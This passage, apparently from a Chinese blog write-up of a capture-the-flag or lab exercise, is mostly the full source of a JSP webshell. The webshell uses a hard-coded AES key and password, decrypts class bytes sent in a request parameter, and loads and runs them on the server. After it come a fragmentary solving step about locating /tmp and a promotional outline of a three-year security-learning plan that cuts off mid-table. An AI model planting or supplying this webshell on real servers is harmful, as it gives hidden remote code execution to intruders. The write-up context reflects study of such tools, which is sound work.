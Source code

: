 &lt;%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%&gt;&lt;%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%&gt;</code></pre>






---


> 
<h3>2.4、解题：</h3>
找到/tmp
可以通过命令行

 还是通过文件管理把






---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL